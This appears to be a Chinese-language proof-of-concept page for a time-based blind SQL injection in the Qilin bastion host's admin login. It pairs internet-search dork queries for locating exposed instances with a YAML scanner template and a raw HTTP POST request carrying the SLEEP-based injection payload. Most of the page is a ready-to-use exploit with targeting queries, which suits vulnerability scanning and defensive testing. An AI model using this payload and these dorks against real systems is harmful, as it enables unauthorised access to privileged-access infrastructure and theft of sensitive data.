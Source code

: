 ## 中远麒麟堡垒机SQL注入
麒麟堡垒机用于运维管理的认证、授权、审计等监控管理。中远麒麟堡垒机存在SQL注入，可利用该漏洞获取系统敏感信息。


## 检索条件：

cert="Baolei" 或 title="麒麟堡垒机" 或 body="admin.php?controller=admin_index&action=get_user_login_fristauth" 

或 body="admin.php?controller=admin_index&action=login"
```
poc:
  relative: req0 && req1
  session: false
  requests:
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      Content-Type: application/x-www-form-urlencoded
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
    data: username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
    follow_redirects: true
    matches: (code.eq("200") && time.gt("5") && time.lt("10"))
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
    data: username=admin
    follow_redirects: true
    matches: time.lt("5")

```


## 请求包
```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```
